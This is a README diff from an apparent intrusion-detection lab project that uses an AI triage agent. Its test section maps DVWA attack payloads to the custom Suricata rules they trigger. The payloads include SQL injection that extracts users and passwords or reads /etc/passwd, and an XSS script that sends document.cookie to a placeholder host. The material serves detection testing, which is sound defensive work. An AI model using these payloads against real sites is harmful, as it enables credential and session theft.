

Before and after one commit to dzipsin/p000774csitcp, a Markdown page: README.md, the part around one of its changes. Shown at 85% size. GitHub-like rendering; blank space fills up the shorter version.

````diff
--- a/README.md
+++ b/README.md
@@ -500,26 +505,34 @@ Defines IPs/hostnames the agent's `lookup_environment_context` tool recognises.
 
 ## Attack Scenarios for Testing
 
+The lab runs custom-only, so the alerts you'll see are all team-authored. The signature names start with `P1`, `P2`, `P3` (their priority tier), which maps to dashboard severity critical / high / low.
+
 ### SQL Injection
 
 In DVWA → SQL Injection (security set to Low):
 
-| Payload | Type | Expected Suricata Rule |
-|---------|------|----------------------|
-| `1' OR '1'='1` | Auth bypass | May not trigger HTTP-layer rule (simpler pattern) |
-| `1' UNION SELECT user, password FROM users#` | UNION-based extraction | `ET WEB_SERVER SELECT USER SQL Injection Attempt in URI` |
+| Payload | Custom rule that fires | Dashboard severity |
+|---|---|---|
+| `1' UNION SELECT user, password FROM users#` | sid 1000101 *P1 - SQLi UNION SELECT in URI* (plus 1000108 comment-seq, 1000110 keyword) | critical (P1 wins) |
+| `1' AND version()#` | sid 1000103 *P1 - SQLi Database Function Call in URI* | critical |
+| `1' OR 1=1#` | sid 1000105 *P2 - Boolean-Based Blind Injection* (plus 1000108) | high |
+| `1' UNION SELECT LOAD_FILE('/etc/passwd'), 2#` | sid 1000104 *P1 - SQLi OS Command Execution Attempt* (plus 1000101) | critical |
 
 ### Cross-Site Scripting (XSS)
 
 In DVWA → XSS (Reflected) (security set to Low):
 
-| Payload | Type | Expected Suricata Rule |
-|---------|------|----------------------|
-| `<script>alert('xss')</script>` | Reflected XSS | `ET WEB_SERVER Script tag in URI Possible Cross Site Scripting Attempt` |
+| Payload | Custom rule that fires | Dashboard severity |
+|---|---|---|
+| `<script>fetch('http://x/?c='+document.cookie)</script>` | sids in 1000001-1000005 (cookie exfiltration) | critical |
+| `<img src=x onerror=alert(1)>` | sids ~1000055-1000057 (event-handler + img tag) | low |
+| `%3Cscript%3Ealert(1)%3C%2Fscript%3E` (URL-encoded) | sid ~1000040 (encoded script tag) | high |
 
-### False Positives (Expected)
+### False positives (expected)
 
-Every attack generates additional `ET SCAN Suspicious inbound to mySQL port 3306` alerts. These are internal Docker traffic between DVWA and MariaDB — **not actual attacks**. The AI module should classify these as `likely_false_positive`.
+One HTTP request often trips two or three rules at once (e.g. UNION SELECT also matches the P2 comment-sequence and the P3 keyword rule, because it has a `#` and SQL keywords). The dashboard groups these into a single incident, so the *raw alerts* view shows multiple lines per attack but the *incident* view stays clean.
+
+The broader P2 and P3 rules (especially P2 *SQL Comment Sequence in URI* and P3 *URL-Encoded Characters in URI*) also over-match on benign browsing if the URL happens to contain a `#`, `--`, or `%27`. This is the false-positive stream the AI triage layer is meant to suppress — those alerts should be classified as `likely_false_positive` in the report.
 
 ---
 
@@ -527,25 +540,27 @@ Every attack generates additional `ET SCAN Suspicious inbound to mySQL port 3306
 
 ```
 p000774csitcp/
-├── app.config                       # TOML configuration (universal — no local paths)
+├── app.config                       # TOML configuration (universal, no local paths)
 ├── requirements.txt
 ├── setup_linux.sh / setup_windows.bat
 ├── run.sh                           # Linux quick-start (VM only)
+├── system-overview.png              # hand-drawn workflow diagram (embedded in docs/ARCHITECTURE.md)
 │
 ├── src/
-│   ├── app.py                       # entrypoint — wires log_monitor / agent / storage / web
-│   ├── log_monitor.py               # tails eve.json → AlertRecord
-│   ├── alert.py                     # AlertRecord dataclass
-│   ├── incident.py                  # Incident domain model
-│   ├── incident_manager.py          # in-memory correlation, dedupe, lookup
-│   ├── ai_module.py                 # Stage 1 classifier (per-alert)
+│   ├── app.py                       # entry point: wires log_monitor / agent / storage / web
+│   ├── log_monitor.py               # tails eve.json, emits AlertRecord
+│   ├── incident_manager.py          # in-memory grouping, 2-min window, 3 s debounce
+│   ├── models.py                    # all dataclasses: AlertRecord, Incident,
+│   │                                # AlertClassification, IncidentReport, ReasoningStep,
+│   │                                # plus extract_attack_type with SID-range path
 │   ├── model_provider.py            # Ollama / Anthropic / llama.cpp facade
 │   │
-│   ├── react_agent.py               # ReAct loop — XML-tagged Reasoning/Acting,
-│   │                                # hybrid pre-enrichment (Option F), 6-step budget
+│   ├── react_agent.py               # ReAct loop: XML-tagged thoughts + actions,
+│   │                                # hybrid pre-enrichment (Option F), max 3 iter, 30 s budget
 │   ├── tool_registry.py             # tool registration + dispatch
 │   ├── agent_tools.py               # get_alert_history, lookup_environment_context,
-│   │                                # get_attack_pattern_stats + lookup_environment_for_query
+│   │                                # get_attack_pattern_stats + the public
+│   │                                # lookup_environment_for_query helper
 │   │
 │   ├── report_generator.py          # Stage 2 narrative + rule-based suggestions +
 │   │                                # 3-layer LLM filter + MITRE tactic override
````
Also changed, not shown: other parts of README.md (+73 -63 lines).
